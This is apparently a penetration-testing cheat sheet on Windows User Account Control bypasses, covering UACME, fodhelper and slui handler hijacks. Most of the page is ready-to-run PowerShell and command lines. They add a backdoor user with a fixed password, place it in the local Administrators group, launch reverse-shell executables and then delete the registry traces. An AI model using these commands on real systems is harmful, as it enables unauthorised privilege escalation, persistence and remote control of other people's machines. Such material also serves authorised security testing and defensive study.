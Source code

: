 ```yaml
---
description: Common UAC Bypass Checklists
---
```


# UAC Bypass

A UAC bypass is a method to circumvent User Account Control, a security feature in Windows that asks for confirmation before making major changes. Bypasses typically trick trusted programs into running malicious code with high privileges.

### UACME

* [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
* [https://github.com/yuyudhn/UACME-bin](https://github.com/yuyudhn/UACME-bin)

{% code overflow="wrap" %}
```powershell
# Add new user
Akagi64.exe 61 "net user asuka asuk@1337 /add"

# Reverse shell
Akagi64.exe 61 "E:\Exploits\shell.exe"
```
{% endcode %}

### Foodhelper

{% code overflow="wrap" %}
```powershell
powershell

# Add user "asuka"
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force; New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force; Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "net user asuka asuk@1337 /add" -Force; Start-Process "C:\Windows\System32\fodhelper.exe"

# Add asuka to Local Administrator
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force; New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force; Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "net localgroup Administrators asuka /add" -Force; Start-Process "C:\Windows\System32\fodhelper.exe"

# Delete registry value
reg delete HKCU\Software\Classes\ms-settings\ /f
```
{% endcode %}

### Slui File Handler Hijack LPE

* [https://bytecode77.com/slui-file-handler-hijack-privilege-escalation](https://bytecode77.com/slui-file-handler-hijack-privilege-escalation)
* [https://github.com/gushmazuko/WinBypass/blob/master/SluiHijackBypass.ps1](https://github.com/gushmazuko/WinBypass/blob/master/SluiHijackBypass.ps1)

{% code overflow="wrap" %}
```powershell
powershell -ep bypass
. .\SluiHijackBypass.ps1

SluiHijackBypass -command "cmd.exe" -arch 64
# or
SluiHijackBypass "C:\xampp\htdocs\reverse-shell.exe"
```
{% endcode %}
